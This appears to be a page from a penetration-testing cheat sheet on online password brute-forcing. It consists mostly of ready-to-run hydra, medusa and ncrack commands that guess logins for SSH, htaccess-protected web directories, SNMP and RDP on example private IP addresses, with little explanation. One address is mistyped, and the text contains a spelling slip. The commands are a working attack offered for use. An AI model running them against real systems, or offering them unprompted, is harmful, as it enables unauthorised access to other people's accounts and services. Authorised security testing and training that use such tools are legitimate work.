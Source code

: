 # Online password cracking


There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP. 

## Port 22 - SSH

```
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V
```



## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess (I exaplin this in the chapter on Common ports).

It can then be brute forced like this:

```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```


## Port 161 - SNMP

```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```